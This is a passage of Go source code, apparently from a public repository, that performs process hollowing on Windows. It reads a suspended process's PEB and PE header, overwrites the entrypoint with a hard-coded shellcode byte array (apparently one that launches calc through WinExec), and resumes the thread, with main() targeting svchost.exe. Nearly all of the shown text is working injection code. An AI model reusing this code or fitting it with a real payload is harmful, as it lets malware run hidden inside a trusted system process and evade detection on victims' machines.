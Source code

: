 ```go
  ZwQueryInformationProcess.Call(uintptr(pi.Process), 0, uintptr(unsafe.Pointer(&pbi)), pointerSize*6, uintptr(unsafe.Pointer(&returnLength)))

  imageBaseAddress := pbi.PebBaseAddress + 0x10

  addressBuffer := make([]byte, pointerSize)
  var read uintptr
  ReadProcessMemory.Call(uintptr(pi.Process), imageBaseAddress, uintptr(unsafe.Pointer(&addressBuffer[0])), uintptr(len(addressBuffer)), uintptr(unsafe.Pointer(&read)))

  imageBaseValue := binary.LittleEndian.Uint64(addressBuffer)

  addressBuffer = make([]byte, 0x200)
  r1, _, err := ReadProcessMemory.Call(uintptr(pi.Process), uintptr(imageBaseValue), uintptr(unsafe.Pointer(&addressBuffer[0])), uintptr(len(addressBuffer)), uintptr(unsafe.Pointer(&read)))
  if r1 == 0 {
    return err
  }

  lfaNewPos := addressBuffer[0x3c : 0x3c+0x4]
  lfanew := binary.LittleEndian.Uint32(lfaNewPos)
  entrypointOffset := lfanew + 0x28
  entrypointOffsetPos := addressBuffer[entrypointOffset : entrypointOffset+0x4]
  entrypointRVA := binary.LittleEndian.Uint32(entrypointOffsetPos)
  entrypointAddress := imageBaseValue + uint64(entrypointRVA)

  r2, _, err := WriteProcessMemory.Call(uintptr(pi.Process), uintptr(entrypointAddress), uintptr(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)), 0)
  if r2 == 0 {
    return err
  }

  ResumeThread.Call(uintptr(pi.Thread))

  return nil
}

func main(){
  var shellcode []byte = []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc}

  err := ProcessHollowing(shellcode, "C:\\Windows\\System32\\svchost.exe")
  if err != nil {
    log.Fatal(err)
  }
}
```
